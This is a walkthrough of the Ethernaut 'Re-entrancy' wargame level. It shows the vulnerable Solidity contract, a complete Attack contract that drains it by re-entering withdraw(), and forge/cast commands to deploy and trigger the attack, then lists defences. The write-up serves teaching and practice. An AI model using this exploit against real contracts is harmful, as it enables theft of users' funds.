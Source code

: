 ## Re-entrancy Level Outline

**Difficulty : 6/10**

The goal of this level is for you to steal all the funds from the contract.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D)

## Solution
Re-entrancy attacks continiously call the withdraw function from a vulnerable contract till it is drained. This happens because ETH is sent out of the contract before the ETH is deducted from it's mapping/tracking variable.

### Walkthrough

##### 1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    Reentrance reentrance;  
    uint256 amount = 0.001 ether;

    constructor(address _reentrance) {
        reentrance = Reentrance(_reentrance); 
    }

    receive() external payable {
        if (address(reentrance).balance >= 0) {
            reentrance.withdraw(amount);
        }
    }

    function attack() public payable {
        reentrance.donate{value: msg.value}(address(this));
        reentrance.withdraw(amount);
    }
}

interface Reentrance {
    function withdraw(uint _amount) external;
    function donate(address _to) external payable;
}
```

##### 2. deploy our new contract
```console
forge create src/Contract.sol:Attack --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. call the "attack()" function on our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "attack()" --value 0.01ether --gas 200000 --private-key $PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
[Video](https://www.youtube.com/watch?v=4Mm3BCyHtDY&t=321s) showing example of Re-entrancy attack 

To prevent re-entrancy attacks, use the [Check-Effects-Interactions pattern](https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) or use OpenZepplin's [Reentrancy Guard Contract](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard)

